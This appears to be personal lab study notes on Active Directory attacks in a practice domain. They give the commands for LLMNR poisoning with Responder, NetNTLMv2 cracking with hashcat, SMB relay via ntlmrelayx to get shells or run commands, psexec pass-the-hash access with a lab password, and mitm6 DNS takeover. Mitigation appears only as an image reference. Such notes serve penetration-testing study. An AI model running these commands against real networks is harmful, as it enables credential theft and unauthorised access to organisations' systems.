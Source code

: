 # Active Directory Initial Attacks

# LLMNR Poisioning
    1. Run Responder
        a. Sudo responder -l tun0/eth0 -dwp
    2. From PUNISHER machine go to file share ip will point to the attacker machine
    3. Step 3 Get DEM hash on the responder
    4. Crack the captured hash using hashcat
        a. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
        b. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --show [POT file of previously cracked hash]
        c. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --force [force run on VM]
        d. hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -O [optimise]
        e. Rockyou2021 --> latest rock you
        f. sudo responder -I eth0 -dPv ( Command that I used )

![alt text](Assests/LLMNR_1.png)

![alt text](Assests/LLMNR_2.png)

## Mitigation of LLMNR attack

![alt text](Assests/LLMNR_3.png)

# SMB Relay Attack

    1. Identify Host without SMB Signing
        a. Nmap --script=smb2-security-mode.nse -p445 <ip>
    2. Run Responder
        a. Edit responder.conf
            i. Sudo mousepad /etc/responder/Responder.conf
        b. Run responder
            i. Sudo responder -I eth0 -dwP
    3. Set up relay using Ntlmrelayx.py ( install using pimp my linux)
        a. Ntlmrelays.py -tf targets.txt -smb2support
    4. Make a connection request to attacker machine same as LLMNR
        a. Capture SAM hashes on the responder 

    Other
    1.  Ntlmrelays.py -tf targets.txt -smb2support -I (get interactive shell)
    2. Nc <ip> <host> [connect to the above created shell]
    3. Ntlmrelays.py -tf targets.txt -smb2support -c "whoami" (run command)    

![alt text](Assests/SMB_RELAY_1.png)

![alt text](Assests/SMB_RELAY_2.png)

Switch of SMB and HTTP Flags in /etc/reponsder/Responder.conf

![alt text](Assests/SMB_RELAY_3.png)

![alt text](Assests/SMB_RELAY_4.png)

![alt text](Assests/SMB_RELAY_5.png)

![alt text](Assests/SMB_RELAY_6.png)

![alt text](Assests/SMB_RELAY_7.png)


# Gaining Shell access

        1. Through Metasploit
            a. Exploit(windows/smb/psexec)
                i. Both password and hash can be used to take access
        2. Psexec.py
            a. Password: Psexec.py marvel.local/fcastle:'password1'@<ip>
            b. Hash: psexec.py administrator@<IP> -hashes <hashdump>
        3. Wmiexec.py
        4. Smbexec.py

![alt text](Assests/SHELL_1.png)

![alt text](Assests/SHELL_2.png)

# DNS Takeover Attack
    Tool: mitm6
    Installed in pimp my kali
    
    
    Ntlmrelayx.py  -6 -t ldaps://192.168.138.149 -wh fakewpad.marvel.local -l lootme
    Sudo Mimt6 -d marvel.local

![alt text](Assests/DNS_T_1.png)

![alt text](Assests/DNS_T_2.png)

